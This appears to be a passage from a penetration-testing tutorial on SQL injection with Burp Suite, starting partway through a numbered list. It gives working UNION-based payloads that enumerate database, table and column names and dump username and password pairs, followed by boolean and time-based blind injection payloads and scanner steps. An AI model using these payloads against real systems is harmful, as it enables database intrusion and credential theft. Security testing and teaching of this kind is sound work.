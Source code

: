 2. **Identify vulnerable columns** (using `UNION SELECT`):  
   ```sql
   id=-1' UNION SELECT 1,2,3-- -
   ```
   - Numbers `2,3` in response? Those columns are injectable.  

3. **Extract data (examples):**  
   - **Database name:**  
     ```sql
     id=-1' UNION SELECT 1,database(),3-- -
     ```
   - **Table names:**  
     ```sql
     id=-1' UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema=database()-- -
     ```
   - **Column names:**  
     ```sql
     id=-1' UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'-- -
     ```
   - **Dump credentials:**  
     ```sql
     id=-1' UNION SELECT 1,concat(username,':',password),3 FROM users-- -
     ```

---

### **C. Blind SQLi (Boolean & Time-Based)**  
**Objective:** Extract data without visible errors.  

#### **Boolean-Based (Intruder)**  
1. **Capture a request** (e.g., `GET /profile?id=1`).  
2. **Send to Intruder** (`Ctrl+I`).  
3. **Test with payloads:**  
   ```sql
   id=1' AND SUBSTRING(database(),1,1)='a'-- -
   ```
   - If `TRUE`, page loads normally.  
   - Use **Cluster Bomb** attack to brute-force characters.  

#### **Time-Based (Repeater/Intruder)**  
1. **Test delays:**  
   ```sql
   id=1' AND IF(1=1,SLEEP(5),0)-- -
   ```
   - If response takes **5+ seconds**, injection works.  

---

## **3. Automated Testing (Burp Scanner & SQLmap)**  

### **A. Burp Active Scanner**  
1. **Right-click a request** > **Scan**.  
2. **Check results** (`Dashboard > Scan queue`).  
3. **Review SQLi findings** (`Issues` tab).  
